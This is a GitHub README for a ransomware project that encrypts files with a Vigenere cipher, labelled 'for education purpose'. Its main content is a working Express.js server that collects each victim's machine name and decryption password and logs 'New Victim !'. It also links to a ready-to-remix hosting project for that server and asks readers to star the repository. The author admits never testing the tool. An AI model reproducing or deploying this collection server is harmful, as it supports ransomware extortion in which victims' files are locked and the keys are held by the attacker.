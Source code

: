 # Vigenere Ransomeware
a vigenere encrypt ransomeware by me :p, for education purpose.
**MAKE SURE TO STAR THE PROJECT :)**

# Used Algorithm
- Vigenere

# NOTE
i didnt try this, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also i created this only for *education purpose* .


# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static("public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use [glitch.com](https://glitch.com) to create projects to get the decrypt password, if you want fresh project [clickhere](https://glitch.com/edit/#!/remix/revenge-ransome)


[Virustotal Scan Result](https://www.virustotal.com/gui/file/acf5c8c6b8658cf20e78a2a812db79dbd67ce65992dd0f5f6353962fec94a02c/detection)
